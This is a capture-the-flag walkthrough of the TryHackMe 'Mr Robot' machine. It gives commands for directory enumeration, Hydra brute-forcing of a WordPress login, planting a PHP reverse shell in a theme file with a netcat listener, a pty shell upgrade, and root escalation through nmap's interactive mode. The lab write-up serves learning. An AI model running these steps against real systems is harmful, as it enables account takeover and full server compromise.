 <h1>Mr Robot :fsociety: </h1>

![task 2 screenshot](screenshots/MRtask2.png)

<h2>What is key 1?</h1>

Hint: Robots

This hint should take anyone that has done a few ctfs somewhere fast,
it is a suggestion to go check the robots.txt file of the site:

If you haven' yet, go to browser an put the machine ip address, then
after spending some unfruitful time watching Mr. Robot advertisements(/s)
you can go ahead and check out the robots.txt of the site:

`MACHINE_IP/robots.txt`

Below is a screenshot of robots.txt:

![robots screenshot](screenshots/robots.png)

As you can see there are two interesting pieces of information.
The *key-1-of-3.txt* and *fsocity.dic* pages have been placed here to keep crawlers
from indexing them.

So,  lets check them out.

First, *key-1-of-3.txt* :

![key 1 screenshot](screenshots/k1of3.png)

And we got our first key. :sunglasses:

Then *fsocity.dic*,

![fsoc screenshot](screenshots/fsoc.png)

Depending on what browser you are using, you will be able to see the
words in this site or be prompted to download the file immediately upon
visiting the page. Save the file (which seems to be a dictionary) and continue on.

<h2>What is key 2?</h1>

Hint: White colored font

For this answer, we will try to identify the rest of the flags following the
methodology provided in the [official walkthrough](https://www.youtube.com/watch?v=BQ4xeeNAbaw) by DarkSec for TryHackMe.

The next thing to do then, is run gobuster on the site so that we can identify
additional subdomains. This will help us locate a good place to put the
*fsocity.dic* file to use.

You can get gobuster here: https://github.com/OJ/gobuster

Then run the following command.

`gobuster -u 'http://MACHINE_IP' -w any_directory_wordlist.txt -o gobusteroutput.txt `

Once gobuster is done finding subdomains, we can check which ones have a 200 response:

`cat gobusteroutput.txt | grep 200`

![grep 200 screenshot](grep200.png)

At this point, focus shifts towards the */wp-login* page, where we launch a username and password
brute force attack using our fsocity.dic wordlist and Hydra (https://github.com/vanhauser-thc/thc-hydra)

The command below was used to brute-force the username(USER = Elliot):

`hydra -L fsocity.dic -p test MACHINE_IP http-post-form "/wp-login.php:log^USER^&pwd^PASS^:Invalid username" -V`

Once we have the username, we can go ahead and use the same wordlist to brute-force the
password for the newly found username. (PASS= ER28-0652)

`hydra -l Elliot -P fsocity.dic txt MACHINE_IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -V`

This will let us access the wordpress account for Elliot and look around.

In this case, Elliot's ability to use the edit panel from his account enable the use of php scripts
that will generate a reverses shell which can be used to gain root access.

To get the shell we start listening on port 53 with netcat:

`sudo rlwrap nc -lvnp 53`

then get a reverse shell from wherever you want, the one from the the walkthrough was this
one (https://github.com/pentestmonkey/php-reverse-shell). By modifying a php file for a certain them with
the reverse php shell we get the connection. Load that file on the browser, in this case the URL:

`http://10.10.62.195/wp-content/themes/twentyfifteen/archive.php`

We now go back to the terminal in which we are listening for incoming connections on port 53
And we have a shell

![shell](screenshots/whoami.png)

Check for users on the shell:  `ls /home` , then check their home directories for anything
useful. In this case the second key is in  robot user's home dir, but we cant read it until
we escalate priviledges. There is, however, a backup of robot's password stored and legible.
So we read it

![users](screenshots/lsa.png)

Then we use crackstation to check the hash, and the password is: `abcdefghijklmnopqrstuvwxyz`\

To login as robot using this shell, first we need to make it interactive, this is done with the
following command and the result can be seen in the screenshot below:

`python -c 'import pty;pty.spawn("/bin/bash")'`

![interactive shell](screenshots/interactive.png)

Once logged in as robot we can read the second key and escalate privileges to root.
command: `find / -perm +6000 2>/dev/null | grep '/bin/' ` will find binaries with the root binary .
 The resulting binaries are shown below:

![binaries](screenshots/binaries.png)

The `/usr/local/bin/nmap` binary can be used to gain root access.
Additional information can be found here: https://gtfobins.github.io/gtfobins/nmap/

We run the binary and the reccomended commands to escalate privilege:
`sudo nmap --interactive
nmap> !sh`

And we are now root... that's it

![key 3](screenshots/key3.png)
